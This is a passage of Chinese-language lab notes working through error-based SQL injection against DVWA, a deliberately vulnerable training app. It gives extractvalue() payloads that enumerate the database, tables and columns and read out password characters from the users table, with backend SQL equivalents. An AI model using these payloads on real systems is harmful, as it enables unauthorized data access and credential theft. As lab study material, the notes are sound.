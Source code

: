 进入dvwa表后，show tables;

列出users表所有信息：select * from users; 

![image-20241024124801974](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024124801974.png)

##### 4.在前端使用报错注入实现“dvwa数据库-user表-字段”的注入过程

判断是否有报错注入，有语法错误回显，判断有报错注入：1' and extractvalue(1,0x7e)#
![image-20241025223313138](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025223313138.png)

爆库名：1' and extractvalue(1,concat(0x7e,database()))#
![image-20241025223046312](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025223046312.png)

爆表数：1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));#
![image-20241025224639148](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025224639148.png)

爆表名：1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 0,1)))#（第一张表）
![image-20241026125253537](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125253537.png)
第二张表：1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)))#
![image-20241026125347959](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125347959.png)

爆字段数:1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' )))#
![image-20241026125924305](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125924305.png)

用limit一个个爆字段名：1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 7,1 )))#，从0-7可以一个个爆出来

user_id，first_name，failed_login等

![image-20241026130055973](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026130055973.png)

查询密码位数：1' and extractvalue(1,concat(0x7e,(select length(password) from users where user_id='1' )))#
![image-20241026144120397](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026144120397.png)

查询密码最后一位数：1' and extractvalue(1,concat(0x7e,(select substr(password,32,1) from users where user_id='1' )))#
![image-20241026144410816](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026144410816.png)

##### 5.在后端使用报错注入实现“dvwa数据库-user表-字段”的注入过程

判断报错注入：select first_name,last_name from users where user_id='1' and extractvalue(1,0x7e);

爆库名：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,database()));

爆表数：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));

